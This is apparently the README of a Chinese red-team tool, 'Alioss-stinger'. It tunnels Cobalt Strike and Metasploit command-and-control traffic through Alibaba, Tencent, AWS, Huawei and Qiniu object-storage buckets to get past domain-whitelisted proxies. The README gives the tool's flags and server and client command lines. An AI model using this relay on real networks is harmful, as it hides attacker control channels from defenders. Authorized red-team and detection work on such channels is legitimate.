


# Alioss-stinger

利用阿里云oss对象存储，来转发http流量实现（cs）Cobalt Strike、msf 上线等

这之间利用阿里云的相关域名进行通信。

## 背景

在某次攻防中，内部通过代理服务器上网，且不能访问ip，域名白名单，刚好阿里云、腾讯云在其中，看到github上有个师傅写过的一些腾讯云的代码，但是有个问题，腾讯云的官方库好像不支持认证功能，于是我就照着这个师傅的代码改成了阿里云的版本。

参考：https://github.com/9bie/oss-stinger

如需通过代理访问，可在 `storage/aliyun.go` 中修改 `oss.New(...)` 调用，加入 `oss.AuthProxy("http://127.0.0.1:8080", "", "")` 参数。

## 如何使用

```
Usage of alioss-stinger:
  -address string
        监听地址或者目标地址，格式：127.0.0.1:8080
  -mode string
        client/server 二选一
  -osskey string
        format: endpoint:accessKeyId:accessKeySecret:bucketName[:domain] (domain 仅七牛需要)
  -provider string
        云厂商: aliyun / tencent / aws / huawei / qiniu (default "aliyun")
```

### 支持的云厂商

| provider | endpoint 字段 | bucket 字段 | 备注 |
| -------- | ------------- | ----------- | ---- |
| aliyun   | OSS endpoint，例如 `oss-cn-hangzhou.aliyuncs.com` | bucket 名 | 默认 |
| tencent  | region，例如 `ap-guangzhou` | `<bucket>-<appid>`，例如 `mybucket-1250000000` | |
| aws      | region，例如 `us-east-1` | bucket 名 | |
| huawei   | OBS endpoint，例如 `obs.cn-north-4.myhuaweicloud.com` | bucket 名 | |
| qiniu    | 可留空 | bucket 名 | 需追加第 5 段 `domain`（下载域名，不含 scheme） |

### CS

生成监听本地127.0.0.1:8001的木马：



### 服务端运行

```
# 阿里云（默认）
.\alioss-stinger.exe -address 127.0.0.1:8001 -mode server -osskey endpoint:accessKeyId:accessKeySecret:bucketName

# 腾讯云
.\alioss-stinger.exe -provider tencent -address 127.0.0.1:8001 -mode server -osskey ap-guangzhou:SecretId:SecretKey:mybucket-1250000000

# AWS
.\alioss-stinger.exe -provider aws -address 127.0.0.1:8001 -mode server -osskey us-east-1:AKID:SECRET:mybucket

# 华为云
.\alioss-stinger.exe -provider huawei -address 127.0.0.1:8001 -mode server -osskey obs.cn-north-4.myhuaweicloud.com:ak:sk:mybucket

# 七牛（第 5 段是下载域名）
.\alioss-stinger.exe -provider qiniu -address 127.0.0.1:8001 -mode server -osskey :ak:sk:mybucket:cdn.example.com
```

### 客户端运行

```
.\alioss-stinger.exe -address 127.0.0.1:8001 -mode client -osskey endpoint:accessKeyId:accessKeySecret:bucketName
```



# 阿里云安全配置
按照这个配置就可以了。
https://www.yuque.com/pantom/netsecnote/kyqg65wkmxycfhei

